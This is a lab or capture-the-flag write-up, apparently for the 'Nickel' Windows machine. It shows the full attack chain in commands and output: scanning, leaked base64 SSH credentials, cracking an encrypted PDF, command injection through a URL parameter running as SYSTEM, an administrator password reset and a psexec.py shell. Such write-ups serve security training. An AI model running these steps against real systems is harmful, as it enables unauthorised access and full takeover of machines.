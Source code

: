 - Running our nmap scan we have;

```bash
# Nmap 7.94SVN scan initiated Fri Aug  9 07:10:17 2024 as: nmap -p- -T4 -v --min-rate=1000 -sCV -oN nmap.txt 192.168.220.99
Warning: 192.168.220.99 giving up on port because retransmission cap hit (6).
Nmap scan report for 192.168.220.99
Host is up (0.16s latency).
Not shown: 65287 closed tcp ports (conn-refused), 231 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           FileZilla ftpd
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
22/tcp    open  ssh           OpenSSH for_Windows_8.1 (protocol 2.0)
| ssh-hostkey: 
|   3072 86:84:fd:d5:43:27:05:cf:a7:f2:e9:e2:75:70:d5:f3 (RSA)
|   256 9c:93:cf:48:a9:4e:70:f4:60:de:e1:a9:c2:c0:b6:ff (ECDSA)
|_  256 00:4e:d7:3b:0f:9f:e3:74:4d:04:99:0b:b1:8b:de:a5 (ED25519)
80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Site doesn't have a title.
| http-methods: 
|_  Supported Methods: GET
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: NICKEL
|   NetBIOS_Domain_Name: NICKEL
|   NetBIOS_Computer_Name: NICKEL
|   DNS_Domain_Name: nickel
|   DNS_Computer_Name: nickel
|   Product_Version: 10.0.18362
|_  System_Time: 2024-08-09T06:14:33+00:00
|_ssl-date: 2024-08-09T06:15:45+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=nickel
| Issuer: commonName=nickel
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-08-01T20:35:07
| Not valid after:  2025-01-31T20:35:07
| MD5:   7f74:ba8a:e678:ea4e:dd76:1c9e:788f:906d
|_SHA-1: bba7:61db:e4e5:2b29:7c06:9b41:113a:cd18:0f9c:7b88
5040/tcp  open  unknown
7680/tcp  open  pando-pub?
8089/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods: 
|_  Supported Methods: GET
|_http-favicon: Unknown favicon MD5: 9D1EAD73E678FA2F51A70A933B0BF017
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Site doesn't have a title.
33333/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-favicon: Unknown favicon MD5: 76C5844B4ABE20F72AA23CBE15B2494E
|_http-server-header: Microsoft-HTTPAPI/2.0
| http-methods: 
|_  Supported Methods: GET POST
|_http-title: Site doesn't have a title.
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-08-09T06:14:33
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Aug  9 07:15:47 2024 -- 1 IP address (1 host up) scanned in 330.21 seconds
```



- No anonymous access on the FTP port 21

```bash
❯ ftp 192.168.220.99
Connected to 192.168.220.99.
220-FileZilla Server 0.9.60 beta
220-written by Tim Kosse (tim.kosse@filezilla-project.org)
220 Please visit https://filezilla-project.org/
Name (192.168.220.99:sec-fortress): anonymous
331 Password required for anonymous
Password: 
530 Login or password incorrect!
ftp: Login failed
ftp> 
```



- Navigating to port 80/HTTP we don't have anything useful, however checking port 8089 we have this page;



![image-20240809094200132](/home/sec-fortress/.config/Typora/typora-user-images/image-20240809094200132.png)



- Clicking on each of this options take time to load and for some reasons it is not even coming up, so i decided to view source code and discovered that another IP was been called on the endpoints, instead of our present target IP



```bash
❯ curl http://192.168.220.99:8089/
<h1>DevOps Dashboard</h1>
<hr>
<form action='http://169.254.127.78:33333/list-current-deployments' method='GET'>
<input type='submit' value='List Current Deployments'>
</form>
<br>
<form action='http://169.254.127.78:33333/list-running-procs' method='GET'>
<input type='submit' value='List Running Processes'>
</form>
<br>
<form action='http://169.254.127.78:33333/list-active-nodes' method='GET'>
<input type='submit' value='List Active Nodes'>
</form>
<hr>
```



- Decided to change it to our own IP in which port 33333/HTTP is currently opened also, The two endpoints hence `/list-running-procs` has the message "**Not Implemented**".



![image-20240809094518287](/home/sec-fortress/.config/Typora/typora-user-images/image-20240809094518287.png)



> Seems like the above message means we have to use the `POST` request instead of `GET`, you can use `burpsuite` for this or `curl` using the `-X` parameter. However i will be using `burpsuite`



- I found hardcoded SSH credentials in response after changing request to `POST`



![image-20240809094059905](/home/sec-fortress/.config/Typora/typora-user-images/image-20240809094059905.png)



- Took me some time to figure out the password was encrypted with `base64` so we have to decode that also



```bash
❯ echo "Tm93aXNlU2xvb3BUaGVvcnkxMzkK" | base64 -d
NowiseSloopTheory139
```



- Then we can now login via SSH with the credentials we have at hand `ariah:NowiseSloopTheory139`



```bash
❯ ssh ariah@192.168.220.99                          
ariah@192.168.220.99's password: 
Microsoft Windows [Version 10.0.18362.1016]
(c) 2019 Microsoft Corporation. All rights reserved.

ariah@NICKEL C:\Users\ariah>
```



- Navigating to `C:\ftp` i found a PDF file called `Infrastructure.pdf`, Then decided to transfer the file using the `scp` utility



```bash
❯ scp ariah@192.168.220.99:C:/ftp/Infrastructure.pdf ./
ariah@192.168.220.99's password: 
Infrastructure.pdf                                                                                                                                                                100%   45KB  59.4KB/s   00:00    

❯ ls
 Infrastructure.pdf   nmap.txt
```



- However this file is password encrypted so we have to decrypt it first



![image-20240809100717035](/home/sec-fortress/.config/Typora/typora-user-images/image-20240809100717035.png)





- However this shouldn't be an hassle, we can crack this using `JtR`



```bash
❯ pdf2john Infrastructure.pdf > hash.txt
                                                                                                                                                                                                                    
❯ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (PDF [MD5 SHA2 RC4/AES 32/64])
Cost 1 (revision) is 4 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ariah4168        (Infrastructure.pdf)     
1g 0:00:02:42 DONE (2024-08-09 10:10) 0.006164g/s 61666p/s 61666c/s 61666C/s arial<3..ariadne01
Use the "--show --format=PDF" options to display all of the cracked passwords reliably
Session completed. 
```



- Opening the PDF and checking the content we have several endpoints



![image-20240809235218560](/home/sec-fortress/.config/Typora/typora-user-images/image-20240809235218560.png)



- Checking the endpoints locally, the `http://nickel/` endpoint looks interesting the most, so i checked it first and the body contains a message saying "`dev-api`"



```powershell
ariah@NICKEL c:\ftp>curl http://nickel/?
<!doctype html><html><body>dev-api started at 2024-08-02T13:35:17
                                               
        <pre></pre>
</body></html>
```



- Adding the "`dev-api`" as a parameter to the legit URL i have this error like a normal CMD error, Meaning it executes whatever commands we add there

```powershell
ariah@NICKEL c:\ftp>curl http://nickel/?dev-api
<!doctype html><html><body>dev-api started at 2024-08-02T13:35:17

        <pre>
Error while executing 'dev-api'

The term 'dev-api' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the spelling of the name, or if a path was included, verify that the path is c
orrect and try again.</pre>
</body></html>
```



- Decided to do this with the command `whoami`, and we have a response in return as the user administrator



```powershell
ariah@NICKEL c:\ftp>curl http://nickel/?whoami
<!doctype html><html><body>dev-api started at 2024-08-02T13:35:17

        <pre>nt authority\system
</pre>
</body></html>
```



- We can then change the administrator password and login as the administrator user with `psexec.py`



```powershell
ariah@NICKEL c:\ftp>curl http://nickel/?net%20user%20administrator%20password
<!doctype html><html><body>dev-api started at 2024-08-02T13:35:17

        <pre>The command completed successfully.

</pre>
</body></html>
ariah@NICKEL c:\ftp>

```



```bash
❯ psexec.py administrator@192.168.160.99
Impacket v0.12.0.dev1+20230909.154612.3beeda7 - Copyright 2023 Fortra

Password:
[*] Requesting shares on 192.168.160.99.....
[*] Found writable share ADMIN$
[*] Uploading file YbakDYkh.exe
[*] Opening SVCManager on 192.168.160.99.....
[*] Creating service SBOk on 192.168.160.99.....
[*] Starting service SBOk.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.18362.1016]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32>
```

